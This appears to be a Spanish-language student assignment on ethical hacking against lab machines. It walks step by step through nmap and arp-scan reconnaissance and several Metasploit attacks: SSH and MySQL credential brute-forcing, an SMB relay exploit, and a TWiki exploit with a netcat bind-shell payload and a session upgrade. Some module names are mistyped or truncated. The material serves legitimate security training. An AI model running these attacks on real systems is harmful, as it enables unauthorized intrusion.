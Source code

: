 # Tarea: Hacking Ético

## Máquina Windows con vulnerabilidades
- Obtener información del sistema vulnerable

  	*Para saber la ip del dispositivo al que queremos atacar usaremos:*

  	  arp-scan -l

   	<br>
    
* Explorar e identificar vulnerabilidades del sistema

	*Para saber lo puertos que están abiertos utilizaremos*

  	  nmap *ip del servidor*

  	<br>
   
   	*Si queremos un puerto en especifipo nos sirve el -p*
  
+ Explotar las vulnerabilidades
  
  - Puerto 22 -> SSH

    *Con este comando hacemos uso del módulo ssh_login para iniciar sesión con posibles usuarios*
    
        use auxiliar/scanner/ssh/ssh_login

  	<br>
   
     *Mostramos las opciones*
    
        show options

  	<br>
   
    *Es obligatorio poner el target, en mi caso la IP es: 192.168.0.117*
    
        set RHOSTS 192.168.0.117

  	<br>
   
    *Creamos unalista de posibles usuarios y otra con posibles contraseñas*
    
        set USER_FILE usuarios.txt
        set PASS_FILE usuarios.txt

  	<br>
   
    *Con run se intentará iniciar sesión en el servidor SSH utilizando la lista de nombres de usuario y contraseñas*
    
        run

    <br>
    
  - Puerto 139 -> netbios-ssn

       *Para explotar este puerto necesitaremos explotar estos puertos*

   	    use exploit windows/smb/smb_relay 
 
       *Luego debemos poner el rhosts*

     	    set RHOSTS 192.168.0.117
   
       *Luego lo ejecutamos y ya tenemos acceso*

     	    run

      *Para comprobar que funciona hacemos un ls y debería salir el directorio "he de decir que no se por qué funcionó pero entré"*
      
## Máquina Linux con vulnerabilidades
- Obtener información del sistema vulnerable

    *Para saber la ip del Linux al que queremos ver vulnerabilidades usaremos:*

      nmap -sn *dir_red/mascara*

    <br>

* Explorar e identificar vulnerabilidades del sistema

    *Puedes saber los puertos que un linux tiene abiertos con:*

      nmap -sT *ip del cliente*

    <br>


+ Explotar las vulnerabilidades
  - Puerto 80 -> HTTP
 
     *Este comando carga el módulo de explotación llamado "twiki_history" que está diseñado para atacar vulnerabilidades en la aplicación web TWiki*
	
	    use exploit/unix/webapp/twiki_history

    *Muestra las opciones disponibles para configurar el módulo de explotación "twiki_history".*
    
    	show options
    
    *Establece la dirección IP del host al que se pretende atacar, en este caso 100.100.100.2.*
    
    	set rhost 100.100.100.2
    
    *Establece el payload que se utilizará en la explotación. En este caso, se utiliza "cmd/unix/bind_netcat", que esta diseñado para abrir una conexión usando Netcat en la máquina.*
    
    	set payload cmd/unix/bind_netcat
    
    *Ejecuta la explotación en segundo plano.*
    
    	exploit -j
    
    *Muestra una lista de las sesiones activas que se han establecido después de la explotación. Esto permite identificar si se ha obtenido acceso a la máquina.*
    
    	sessions -l
    
    *Cambia a un módulo de post-explotación llamado "shell_to_m". Se utiliza para interactuar con la máquina objetivo una vez hayamos accedido.*
    
    	use post/multi/manage/shell_to_m
    
    *Establece conexíon con la primera sesion iniciada para ejecutar el módulo "shell_to_m".*
    
    	set session 1
    
    *Ejecuta el módulo "shell_to_m" en la sesión número 1.*
    
    	exploit
    
    *Interactúa con la segunda sesión (sesión número 2), obteniendo acceso a la máquina vulnerable.*
    
    	sessions -i 2
    
    *Sale la IP de la máquina vulnerable una vez conectado.*
    
    	ifconfig
    	
    *Confirmación del acceso a la máquina vulnerable.*
    
    	cat /etc/hostname


    <br>
  
  - Puerto 3306 -> MySQL
 
    *Este comando indica el uso del módulo mysql_login para hacer una prueba de inicio de sesión MySQL, utilizando una lista de nombres de usuario y contraseñas.*
    
        use scanner/mysql/mysql_login
    
    *Muestra las opciones que se pueden configurar del módulo*
    
        show options
    
    *Establece la dirección IP de la máquina vulnerbale, en mi caso la IP es: 100.100.100.2.*
    
        set rhosts 100.100.100.2
    
    *Define el archivo unix_users.txt como la lista de posibles nombres de usuario y contraseñas para probar durante la prueba de inicio de sesión.*
    
        set userpass_file /usr/share/metasploit-framework/data/wordlists/unix_users.txt
    
    *Con run se intentará iniciar sesión en el servidor MySQL utilizando la lista de nombres de usuario y contraseñas del archivo unix_users.txt*
    
        run
 
    *En la lista de usuarios que saldrá que se han probado usamos el que ha podido iniciar la sesión con éxito, en mi caso root*
    
    *Luego en una terminal aparte ejecutamos el siguiente comando y pedira contraseña aunque está vacía*
    
        mysql -u root -h 100.100.100.2 -p
